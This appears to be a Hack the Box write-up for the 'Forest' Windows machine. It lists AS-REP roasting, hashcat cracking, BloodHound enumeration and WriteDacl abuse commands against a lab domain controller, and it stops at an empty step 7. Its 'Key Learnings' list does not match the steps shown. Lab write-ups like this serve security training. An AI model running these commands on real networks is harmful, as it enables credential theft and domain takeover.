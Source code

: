 # Forest

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Easy**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan

<img width="719" height="1009" alt="image" src="https://github.com/user-attachments/assets/6fff85b0-bd86-4e80-a1eb-a5faa5a6ea4f" />

2. Nmap reveals we're dealing with a Domain Controller. Since we are not given initial credentials, attempt to get hashes via ASREProasting attack using Impacket's GetNPUsers.py script

`GetNPUsers.py -request -format hashcat -outputfile asreproastables.txt -dc-ip 10.129.95.210 'htb.local/'`

<img width="721" height="123" alt="image" src="https://github.com/user-attachments/assets/b7257a49-3010-43a5-b68a-c3dbad6b2352" />

3. Crack hash using hashcat to get svc-alfresco's plaintext password

`hashcat -m 18200 asreproastables.txt /usr/share/wordlists/rockyou.txt`

4. With svc-alfresco's credentials, run Bloodhound

`sudo bloodhound-python -d htb.local -u svc-alfresco -p $(cat ../svc-alfresco.password) -ns 10.129.95.210 -c all`

5. Bloodhound shows svc-alfresco user has WriteDacl permissions on the domain.

<img width="1157" height="375" alt="image" src="https://github.com/user-attachments/assets/418e40ba-cea6-4c3a-8c4f-d11b55b1f959" />

6. To exploit WriteDacl permission, first add svc-alfresco user to WINDOWS EXCHANGE PERMISSIONS group using net rpc

`net rpc group addmem "EXCHANGE WINDOWS PERMISSIONS" 'svc-alfresco' -U "htb.local"/'svc-alfresco' -S dc01.htb.local`

7. Then give svc-alfresco user DCSync rights using Impacket's dacledit.py script

``

